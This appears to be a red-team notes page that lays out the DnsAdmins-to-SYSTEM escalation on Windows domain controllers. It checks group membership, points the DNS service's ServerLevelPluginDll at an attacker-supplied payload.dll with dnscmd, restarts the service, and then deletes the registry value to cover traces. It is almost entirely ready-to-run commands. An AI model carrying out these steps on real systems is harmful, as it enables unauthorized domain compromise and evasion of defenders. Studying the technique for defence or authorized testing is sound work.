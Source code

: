 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The user must be part of `DnsAdmins` domain group.


```
C:\> net user %USERNAME% /domain

C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
..[omitted]..
DOMAIN\DnsAdmins                                              Alias            S-1-5-64-10
```

## 02 - Exploit

```
C:\> reg.exe query HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll

PS C:\> Get-ItemProperty Registry::HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

systeminfo.exe

```
C:\> dnscmd.exe /config /serverlevelplugindll .\payload.dll

C:\> sc.exe continue dns
```

## 03 - Cleanup

```
C:\> reg.exe delete HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll

C:\> sc.exe continue dns
```

---
## References

### Backlinks

- [[DLL Injection|Malware Development: DLL Injection]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation - DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)